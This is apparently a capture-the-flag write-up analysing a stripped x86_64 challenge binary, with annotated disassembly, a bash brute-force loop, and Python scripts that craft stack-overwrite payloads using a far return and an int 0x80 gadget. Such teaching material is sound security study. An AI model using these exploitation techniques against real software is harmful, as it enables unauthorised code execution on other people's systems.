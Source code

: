 We gonna take a crack at a meduim binary exploitation challenge by Touhami Kasbaoui.

This is the link for the binary:

http://tracker.0btemoslab.com/challenges/take-it-easy

![file](https://pouch.jumpshare.com/preview/zlejgyvYLyHjzNh9Ymf8nOJE5Y9XUyV811MVVYOBjty4jWyd9mBPAR97IEnHrzB9xQysGijYlM7l3EWEjMzh9TJprjKJn4snkOQIlHyX-Do)

As you can see, it's a stripped x86_64 ELF binary. Let's check the ELF header.

![readelf -h header](https://pouch.jumpshare.com/preview/BvNXIFjQp8f6YqGbVYaneC7wiItwdnqsmDoPnC9lQo2LDFrfY55bpSL4txKwahbLJmHTIUyC7XoQy9o-VssUUTJprjKJn4snkOQIlHyX-Do)

What we can learn from this, is that the entry point to this binary is at **0x400144**.

Let's execute the binary.

![./take-it-easy](https://pouch.jumpshare.com/preview/7MlrxrrC7lC1fLIyllR8XvdoDB-u6fFgxxlA0ec3_ifr268PTCZ_oX1v4Q1NpCUdH_5BUel3Fq_kXqVIVHC5bxA1jQB_zmxltR5bgJ1-nls)

As you can see that the binary output input and read characters from the stdin, After that output checkser and read again. Let's use gdb to examine what's happening.

*NOTE: Remember that it is a stripped binary so no symbols are available, we need to break at the entry point address 0x400144*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/bnDtseOR67PEK6j0LtLkudqvKTKEiLcTtURiqQ4-t0DN7SNmTUG5C9KRUe0AaiezR6DQnalSTy3EhLe3szKU4BA1jQB_zmxltR5bgJ1-nls)

You can use the gdb to go step by step with instructions and use ***i r*** to list the registers and examin they values.

[GDB-PEDA](https://github.com/longld/peda) is a great extention that will help you visualize the register and the stack more easily.

This is the instructions the binary contain:

```

   0x400144:	mov    rax,0x1
   0x40014b:	mov    rdi,0x1
   0x400152:	movabs rsi,0x6000000                ("input\n")
   0x40015c:	mov    rdx,0x6
   0x400163:	syscall                             write syscall  
   0x400165:	xor    rax,rax
   0x400168:	xor    rdi,rdi
   0x40016b:	movabs rbx,0x6000400
   0x400175:	mov    rsi,rbx
   0x400178:	mov    rdx,0x8                     reads 8Bytes
   0x40017f:	syscall                            read syscall
   0x400181:	rdtsc                              Read Time-Stamp Counter
   0x400183:	xor    rax,rdx                     XOR rax and rdx that contain the Time-Stamp
   0x400186:	mov    rdi,rbx
   0x400189:	mov    rcx,0x0
   0x400190:	mov    rdi,rbx                     --------------------------------------------
   0x400193:	add    rdi,rcx                       A loop that iterate on the buffer read 
   0x400196:	xor    BYTE PTR [rdi],al               before and perfome an xop operation
   0x400198:	inc    rcx                              on each byte and the al register
   0x40019b:	cmp    rcx,0x8
   0x40019f:	jl     0x400190                    --------------------------------------------
   0x4001a1:	mov    rax,QWORD PTR [rbx]
   0x4001a4:	push   rax                         Push the modified buffer to the stack
   0x4001a5:	sub    rsp,0x20                    Subtract the rsp pointer
   0x4001a9:	mov    rax,0x1
   0x4001b0:	mov    rdi,0x1
   0x4001b7:	movabs rsi,0x6000007               (checkser\n)
   0x4001c1:	mov    rdx,0xa
   0x4001c8:	syscall                            write syscall
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp                     store the buffer read directly on the stack
   0x4001d3:	mov    rdx,0x100                   reads 256Bytes
   0x4001da:	syscall                            read syscall
   0x4001dc:	add    rsp,0x20                    restore the stack to it's original address wish mean 32Byte of out input is ignored
   0x4001e0:	mov    rdi,0x1
   0x4001e7:	mov    rsi,0x3
   0x4001ee:	mov    rdx,0x3
   0x4001f5:	mov    rcx,0x7
   0x4001fc:	cmp    rax,0x20                    If the buffer size read is less than or equal to 32Byte then the program exit
   0x400200:	jle    0x400214
   0x400202:	pop    r11                         pop the buffer from the stack
   0x400204:	xor    r11,QWORD PTR [rbx]         check if the buffer was tampred with
   0x400207:	jne    0x400214
   0x400209:	mov    QWORD PTR [rsp+0x8],0x23    set 0x23 at the rsp+0x8 wish will set the code segment at the return far
   0x400212:	retfq                              return far wish pop the instruction address and code segment from the top of the stack
   0x400214:	mov    rax,0x3c
   0x40021b:	mov    rbx,0x0
   0x400222:	syscall                            exit syscall

```

The main part that jumped out to me is the loop that modify the buffer we input using the Read Time-Stamp Counter.

[RDTSC](https://c9x.me/x86/html/file_module_x86_id_278.html)

Loads the current value of the processor's time-stamp counter into the EDX:EAX registers. The time-stamp counter is contained in a 64-bit MSR. The high-order 32 bits of the MSR are loaded into the EDX register, and the low-order 32 bits are loaded into the EAX register.

[x86_64 registers](https://wiki.osdev.org/CPU_Registers_x86-64)

![x86_64 registers](https://askcodez.com/images2/155807970253616.png)

[XOR](https://www.loginradius.com/blog/engineering/how-does-bitwise-xor-work/#:~:text=XOR%20is%20a%20bitwise%20operator,X)

![XOR](https://i.stack.imgur.com/qncwi.png)

Let's run the debugger and see if we can understand what's going on.

*I am going to provide an input of "AAAAAAAA".*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/xZkkhLGGgCjy_l4-s9YEWNqvAuxNqR8NWdIN0Mgk9h6r-wn3395rj10n486AkehIYwo3AGyPdvSQKNUULLGFqzJprjKJn4snkOQIlHyX-Do)

As you can out input got modified using the xor operation with the $al register wish is read from the time stamp counter. We have no control over the time stamp counter, but knowing the nature of CPU's the time stamp counter is geting incremented each second with an insane speed. 

The second read syscall allow us to store the directly into the stack. Knowing that all we have to do is write the next instruction address to the stack and return far will pop it giving us controll. But to write our adress to the stack we need to overwrite the value pushed before, thus the program quit as it checks if the stack got tampred with.

```
   0x400204:	xor    r11,QWORD PTR [rbx]
   0x400207:	jne    0x400214
```

As said before the time stamp counter will be modified every time we execute the binary. We can brute force the time stamp counter by executing the binary in an infinite loop until one time the sanitization output will be the same as a value we set into the stack thus the check will pass allowing us to write out own address to the stack.

```
#!/bin/bash
while [ 1 ]
do
  echo "---------- starting ------------"
  ./take-it-easy < inputs > /dev/null # execute the binary and redirect stdout to /dev/null so the stdout won't be fludded
  if [ $? -eq 139 ] # check if the binary triggred a SEGV signal
  then
    break
  fi
  echo "---------- end ----------------"
done
```

*I am going to provide an input of "AAAAAAAAVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV".*

![./exploit.sh](https://pouch.jumpshare.com/preview/7ve7SjqX_uPWYeujlAKeB3wbwPIqfKjQ2C9887EQyctySB8GCtLDMKzYH8nSNiNvOv0AQfWUmJzbl37Sgn2OTxA1jQB_zmxltR5bgJ1-nls)

The first buffer check is bypassed. Know let's inject an address to the stack and see if the can get controll of instruction pointer after the return far call.

*I am going to stack to the address of the write checkser address 0x4001a9. We are expecting to see checkser output two times*

```
fo = open("payload", "wb")

payload = b'A'*8 # the first input

payload += b'X'*40 # 0x20 the the stack get added with + 8 Bytes of the poped buffer

payload += b"\xa9\x01\x40\x00\x00\x00\x00\x00" # the address is inverted because of little endianness

fo.write(payload)

fo.close()
```

![./exploit.sh](https://pouch.jumpshare.com/preview/8c0RpMeHe5QjTQDLpHu9PncHxWIbsc4C4D9IzfH62G73FBk-rICMjSIjL4wKrWguiq5rWBkcjZp8NeZyfgmcfDJprjKJn4snkOQIlHyX-Do)

**No double checkser!? what's going on?**

We overlook something. return far does more than pop the instruction address from the stack, it also pop another byte to set the code segment register setting it with a value of 0x23. After the return far the code now is running on 32 bit mode. We can test that by loocking for 32 bit instruction and try to execute them.

```
   0x400214:	mov    rax,0x3c
```


After using a tool called ropper that look for gadgets in the binary, i found a gadget that call a system call. *int 0x80*

![ropper](https://pouch.jumpshare.com/preview/dYhIS75pQl2ijWxcym8Ky8KWzAQ77Skl22UrL8ArM7s00HL9VVjcNFuBG2wjmOK9wQbIzcOpD1Z6nKpdFClmKjJprjKJn4snkOQIlHyX-Do)

![gdb](https://pouch.jumpshare.com/preview/e6y-U3rpzjmLBjYdP8_ZcgQ1UpF6nJdfbWn2RX_qg8JUmNZBZ1x1-Hmulw2YiG1F8xPQiU4VEiHwy8nwRvV6zTJprjKJn4snkOQIlHyX-Do)

We can also controll the eax register because it was never reset after the last read syscall. Wish mean that the eax register will be set by the lenght of out last input. But it will be limited because we can't input a buffer less than 33 Byte plus the address of the gadget and the max is 256 Bytes.

```
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp
   0x4001d3:	mov    rdx,0x100
   0x4001da:	syscall
```

[x86 syscall table](https://x86.syscall.sh/)

I am going to use olduname to test and run the binary using the debugger to examine the registers.
***For debugging i bypass the buffer check by setting rbx to the value of r11, set *((unsigned long *) 0x6000400)=$r11***

```
fo = open("payload", "wb")

payload = b'A'*8

payload += b'X'*40

payload += b"\x37\x01\x40\x00\x00\x00\x00\x00"

payload += b'A'*61

fo.write(payload)

fo.close()
```

![gdb](https://pouch.jumpshare.com/preview/AsHoOU5CT2iZHkvVBfqYQNFqH6CvdobkJByIPqsCOUnDXw942AAj4hVveVsUk2l-alTpIrR-BYGnczTHh_-m5BA1jQB_zmxltR5bgJ1-nls)

We can see that olduname got executed succesfully, and also can see that the esp point to an invalid address because of the switch to 32bit mode.


